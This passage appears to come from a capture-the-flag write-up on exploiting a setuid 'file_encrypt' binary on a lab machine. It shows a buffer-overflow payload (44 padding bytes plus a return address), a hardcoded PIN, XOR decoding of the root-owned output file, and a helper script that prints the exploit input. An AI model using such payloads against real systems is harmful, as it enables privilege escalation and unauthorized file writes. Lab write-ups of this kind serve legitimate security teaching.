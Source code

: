 #### Encrypt Non-Root File

At this point I have what I need to encrypt a non-root file. Because I’m lucky, the address of `encrypt` is all ASCII character, I can just type in the exploit:

```

tester@overflow:/opt/file_encrypt$ echo "Hello world" > /tmp/0xdf
tester@overflow:/opt/file_encrypt$ python3 -c 'print("A"*44 + "\x5b\x58\x55\x56")'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[XUV
tester@overflow:/opt/file_encrypt$ ./file_encrypt 
This is the code 1804289383. Enter the Pin: -202976456
name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[XUV
Thanks for checking. You can give your feedback for improvements at developer@overflow.htb
Enter Input File: /tmp/0xdf
Enter Encrypted File: /tmp/0xdf-enc
Segmentation fault (core dumped)

```

It core dumps because it doesn’t have anything to return to coming out of `encrypt`. Still, `/tmp/0xdf-enc` is there owned by root:

```

tester@overflow:/opt/file_encrypt$ ls -l /tmp/0xdf-enc 
-rw-rw-r-- 1 root tester 12 Sep 30 06:25 /tmp/0xdf-enc

```

Better yet, if I XOR each byte by 0x9b, I get the original message:

```

tester@overflow:/opt/file_encrypt$ python3
Python 3.6.9 (default, Jan 26 2021, 15:33:00) 
[GCC 8.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> with open('/tmp/0xdf-enc', 'rb') as f:
...     enc = f.read()
... 
>>> enc
b'\xd3\xfe\xf7\xf7\xf4\xbb\xec\xf4\xe9\xf7\xff\x91'
>>> print(''.join([chr(c^0x9b) for c in enc]))
Hello world

```

I’ll write a quick helper script that prints the output needed to run the exploit:

```

#!/usr/bin/env python3

import sys

print("-202976456")
print("A"*44 + "\x5b\x58\x55\x56")
print(sys.argv[1])
print(sys.argv[2])

```
